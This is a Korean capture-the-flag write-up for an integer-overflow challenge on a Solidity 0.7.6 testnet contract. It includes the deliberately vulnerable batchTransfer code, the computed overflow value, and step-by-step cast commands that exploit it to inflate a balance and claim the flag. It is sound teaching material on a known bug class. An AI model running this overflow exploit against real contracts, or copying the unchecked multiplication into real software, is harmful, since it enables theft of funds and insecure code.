 # Intermediate: 3. integer



**Mission**

Integer overflow is a critical vulnerability in smart contracts that occurs when an arithmetic operation results in a value that exceeds the maximum limit of the data type. This can lead to unexpected behavior and severe security risks - [contract](https://sepolia.scrollscan.com/address/0xEC6851a1286b9E969B0508a5270d073b06205831)

```solidity
pragma solidity ^0.7.6;

contract Integer {
    mapping(address => uint256) balances;
    mapping(address => bool) private minted;
    mapping(address => bool) public flag;

    function balanceOf(address account) external view returns (uint256) {
        return balances[account];
    }

    function mint() external {
        require(minted[msg.sender] == false, "Already minted");
        balances[msg.sender] += 100;
        minted[msg.sender] = true;
    }

    function transfer(address receiver_, uint256 value_) external {
        require(balances[msg.sender] >= value_, "Insufficient balance");
        balances[msg.sender] -= value_;
        balances[receiver_] += value_;
    }

    function batchTransfer(
        address[] calldata receivers_,
        uint256 value_
    ) external {
        uint256 cnt = receivers_.length;
        uint256 amount = cnt * value_;
        require(balances[msg.sender] >= amount, "Insufficient balance");
        balances[msg.sender] -= amount;
        for (uint i = 0; i < cnt; i++) {
            balances[receivers_[i]] += value_;
        }
    }

    function buyFlag() external payable {
        require(
            balances[msg.sender] >=
                10000000000000000000000000000000000000000000000000000000000 ether,
            "Insufficient balance"
        );
        balances[msg.sender] = 0;
        flag[msg.sender] = true;
    }
}
```

uint overflow로 문제를 해결할 수 있다.

Solidity 0.8.0 이상부터는 컴파일 단계에서 overflow나 underflow같은 버그들이 자동으로 잡히지만, 그 이하 버전에서는 문제가 발생한다. 그렇다면 어디서 overflow가 일어나는지 알아보자.

batchTransfer() 함수를 살펴보자.

```solidity
    function batchTransfer(
        address[] calldata receivers_,
        uint256 value_
    ) external {
        uint256 cnt = receivers_.length;
        uint256 amount = cnt * value_;
        require(balances[msg.sender] >= amount, "Insufficient balance");
        balances[msg.sender] -= amount;
        for (uint i = 0; i < cnt; i++) {
            balances[receivers_[i]] += value_;
        }
    }
```

require로 msg.sender가 amount 이상을 갖고 있는지 체크 후, amount만큼을 빼고, receiver들에게는 value_만큼 주는 것을 알 수 있다. 이때 value_에 cnt를 곱한 값이 amount가 된다. 우리는  value_*cnt에서 value_를 매우 큰 값으로 줘 amount가 uint256 최댓값을 넘기게 할 수 있다. 그렇게 된다면 오히려 amount가 작은 수가 되어 조건을 우회할 수 있게 되고(overflow로 인해 uint256 max + 1 = 0이므로) 그러면서 value_는 큰 값이므로, receiver중 하나를 내 지갑 주소로하면, buyFlag의 조건을 통과할 수 있게 된다. 

그렇다면 공격해보자. 아래는 uint256의 최댓값이다.

```solidity
115792089237316195423570985008687907853269984665640564039457584007913129639935
```

우리는 receiver를 두명으로 설정해, cnt를 2로 만들 것이다. 그렇다면 (uint256 max)/2 + 1을 한 값을 value로 두자(+1을 해야 cnt * value_ 에서 overflow가 발생하므로).  

type(uint256).max/2 + 1:

```solidity
57896044618658097711785492504343953926634992332820282019728792003956564819968
```

해당 값을 value_로 하여 공격을 수행하자.

receiver중 하나는 본인 주소, 하나는 아무거나 선택하면 된다.

먼저 mint를 받아야 한다.

```solidity
cast send 0xEC6851a1286b9E969B0508a5270d073b06205831 "mint()" --rpc-url $SCROLL_RPC_URL --private-key $YOUR_PRIV_KEY
```

Call batchTransfer for Exploit:

```solidity
cast send 0xEC6851a1286b9E969B0508a5270d073b06205831 "batchTransfer(address[],uint256)" "[0x4C5F15604c4B63EcBe4DFfA125879e0CC278711b, 0xEC6851a1286b9E969B0508a5270d073b06205831]" 57896044618658097711785492504343953926634992332820282019728792003956564819968 --rpc-url $SCROLL_RPC_URL --private-key $YOUR_PRIV_KEY 
```

buyFlag:

```solidity
cast send 0xEC6851a1286b9E969B0508a5270d073b06205831 "buyFlag()" --rpc-url $SCROLL_RPC_URL --private-key $YOUR_PRIV_KEY
```

Flag:

```solidity
ethcon2024{https://MEDIUM.com/secbit-media/a-disastrous-vulnerability-found-in-smart-contracts-of-beautychain-bec-dbf24ddbc30e}
```